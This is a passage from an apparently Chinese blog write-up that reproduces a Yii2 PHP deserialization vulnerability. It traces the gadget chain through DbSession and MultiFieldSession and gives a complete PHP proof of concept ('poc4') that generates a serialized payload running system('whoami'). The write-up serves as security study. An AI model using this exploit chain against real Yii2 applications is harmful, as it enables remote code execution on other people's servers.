

这里要调用getIsActive(),在DbSession.php里面并没有,不过DbSession这个类时从MultiFieldSession继承的



而MultiFieldSession是从Session继承的



在Session.php下找到了getIsActive()函数



yii2中的debug和gii这两个默认扩展都存在（不一定要开启）时，这里session_status()返回true

所以close()函数可以进入if循环

因为继承的关系,可以调用MultiFieldSession的composeFields()函数

跟进composeFields()



这里就可以通过$this->writeCallback来回调之前找到的run方法来rce

其实我开始想通过这个call_user_func直接rce的,但是这个$this不可控

我就只能将$this->writeCallback赋值为一个数组,来实例化一个对象调用其中的危险函数再rce了

不能call_user_func['system','whoami']

因为这样是调用system类的whoami函数

call_user_func('system','whoami'),这样才是回调system()函数将whoami作为参数

所以这里我就只有回调第一条链子找到的无参的run方法

poc4

```
<?php
namespace yii\rest {
    class Action
    {
        public $checkAccess;
    }
    class IndexAction
    {
        public function __construct($func, $param)
        {
            $this->checkAccess = $func;
            $this->id = $param;
        }
    }
}
namespace yii\web {
    use yii\rest\IndexAction;
    abstract class MultiFieldSession
    {
        public $writeCallback;
    }
    class DbSession extends MultiFieldSession
    {
        public function __construct($func, $param)
        {
            $this->writeCallback = [new IndexAction($func, $param), "run"];
        }
    }
}
namespace yii\db {
    use yii\web\DbSession;
    class BatchQueryResult
    {
        private $_dataReader;
        public function __construct($func, $param)
        {
            $this->_dataReader = new DbSession($func, $param);
        }
    }
}
namespace {
    $exp = new yii\db\BatchQueryResult('system', 'whoami');
    echo(base64_encode(serialize($exp)));
}
```

## 漏洞复现



以上poc在2.0.37都能打通

在2.0.38中只有poc2和poc3能够打通,在2.0.38中新增了一个wakeup方法来禁止反序列化



小结

对一些php反序列化漏洞进行复现,感觉自己的审计能力得到了提升,但是还不够

虽然复现的时候没有问题,但是我现在还只能看到poc来对这些漏洞进行复现,还不算是自己的东西,虽然在找到了漏洞的利用链的时候,能够自己编写poc&exp,但是还不具备自己挖掘漏洞的能力

参考链接:http://t.zoukankan.com/thresh-p-13743081.html
